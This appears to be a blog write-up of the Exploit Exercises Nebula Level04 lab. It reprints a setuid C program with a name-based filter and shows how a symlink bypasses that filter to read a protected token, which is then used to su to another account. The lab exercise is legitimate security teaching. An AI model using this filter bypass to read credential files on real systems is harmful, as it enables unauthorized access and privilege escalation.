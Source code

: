 ```yaml
---
title: "Exploit Exercises - Nebula Level04"
date: "2015-08-18"
slug: "exploit-exercises-nebula-level04"
Categories:
- Exploit Exercises
---
```


[Level04] was one of my favorite challenges out of the entire series. The post below documents my solution.

<!--more-->

We are presented with the source code for level4.c. I included the code below for a quick reference:

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>

	int main(int argc, char **argv, char **envp)
	{
 		char buf[1024];
 		int fd, rc;

 		if(argc == 1) {
  			printf("%s [file to read]\n", argv[0]);
  			exit(EXIT_FAILURE);
 		}

 		if(strstr(argv[1], "token") != NULL) {
  			printf("You may not access '%s'\n", argv[1]);
  			exit(EXIT_FAILURE);
 		}

 		fd = open(argv[1], O_RDONLY);
 		if(fd == -1) {
  			err(EXIT_FAILURE, "Unable to open %s", argv[1]);
 		}

 		rc = read(fd, buf, sizeof(buf));

 		if(rc == -1) {
  			err(EXIT_FAILURE, "Unable to read fd %d", fd);
 		}

 		write(1, buf, rc);
	}


At first glance I made the problem too complicated and began looking into file permissions, etc. After resetting myself I concentrated on the source code provided and noticed a common programming mistake. The second if statement explicitly states the file that the programmer does not want accessed. Since the code is matching based on name we should be able to create a symbolic link to display the contents of token.

	level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
	level04@nebula:/home/flag04$ ./flag04 /tmp/level04
	06508b5e-8909-4f38-b630-fdb148a848a2
	level04@nebula:/home/flag04$ id
	uid=1005(level04) gid=1005(level04) groups=1005(level04)
	level04@nebula:/home/flag04$ su flag04
	Password:
	sh-4.2$ id
	uid=995(flag04) gid=995(flag04) groups=995(flag04)
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

There you have it! By evading the name-based filter we were able to read the restricted files contents.

Just a quick note: I used the contents of token as the password in order to su to the flag04 account. Hope this helps!


[Mike][]

[Level04]: https://exploit-exercises.com/nebula/level04/ "Level04"
[Mike]: /contact "Contact Mike"

